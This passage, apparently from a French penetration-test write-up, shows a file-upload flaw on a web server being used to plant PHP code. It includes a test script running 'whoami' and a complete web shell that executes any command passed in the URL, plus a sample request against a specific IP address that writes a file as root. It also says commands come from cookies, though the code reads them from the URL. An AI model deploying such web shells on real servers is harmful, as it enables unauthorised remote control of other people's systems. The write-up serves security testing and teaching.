 ```php
<?php
echo "<pre>";
system('whoami');
echo "</pre>";
?>
```

![16.png](./screenshots/16.png)

En naviguant sur le fichier déposé et voyant que les commandes s’exécutent correctement, nous déposons le script php suivant : 


```php
<?php
// Exemple d'utilisation : cmd.php?cmd=whoami

if (isset($_GET['cmd'])) {
    $commande = $_GET['cmd'];
    echo "<pre>";
    // Utilisation de shell_exec pour capturer la sortie complète
    $resultat = shell_exec($commande);
    echo htmlspecialchars($resultat); // pour éviter que le HTML casse l'a>
    echo "</pre>";
} else {
    echo "Aucune commande fournie. Utilisez : ?cmd=commande";
}
?>
```
Ce script nous permet d’obtenir un web shell, qui consiste à récupérer des commandes depuis les cookies de navigations dans l’url et de les exécuter dans le terminal de la machine hébergeant le site web. 

![17.png](./screenshots/17.png)

La commande `pwd` nous permet de savoir dans quelle arborescence de fichier se situe le site.
Ayant vu précédemment que les commandes sont exécutés depuis un utilisateur root, nous testons les différentes permissions octroyés, notamment la création de fichier avec la commande `35.180.94.78/uploads/travaux/67e3d9392c1a0_cmd.php?cmd=echo%20"this%20a%20test"%20>%20test.txt`. Nous avons en effet besoin d’encoder les espaces et caractères spéciaux afin qu’ils soient correctement interprétés par l’url.  
